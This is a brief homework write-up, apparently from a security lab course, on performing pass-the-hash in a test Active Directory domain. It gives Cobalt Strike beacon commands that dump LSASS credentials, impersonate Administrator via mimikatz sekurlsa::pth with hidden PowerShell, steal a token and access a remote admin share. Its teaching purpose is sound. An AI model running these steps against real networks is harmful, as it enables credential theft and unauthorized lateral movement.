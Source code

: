## Homework #6
***
pass-the-hash (PTH) with mimikatz in your AD env by following this:
https://blog.cobaltstrike.com/2015/05/21/how-to-pass-the-hash-with-mimikatz/

I will use dump the plain text passwords from LSASS to get my domain account hashes. This is because I am going to PTH to another domain computer with a different local user/password. For local user accounts you can use `hashdump`. You can view the captured credentials under View -> Credentials. 
```
beacon> logonpasswords
```

Create a trust relationship from a username and password hash.
```
beacon> mimikatz sekurlsa::pth /user:Administrator /domain:WIND.local /ntlm:<ntlmhashhere> /run:"powershell -w hidden"
```

Steal the token from the PID created by mimikatz. 
```
beacon> steal_token <PID#here>
```

Test token on remote machine. 
```
beacon> shell dir \\CFC-Win10-02\C$
```

### References
Need to have administrator beacon. Troubleshooting article here. 
https://blog.cobaltstrike.com/2015/12/16/windows-access-tokens-and-alternate-credentials/
Kandy Walkthrough of PTH
https://www.youtube.com/watch?v=GmrPHD7k7W0&t=424s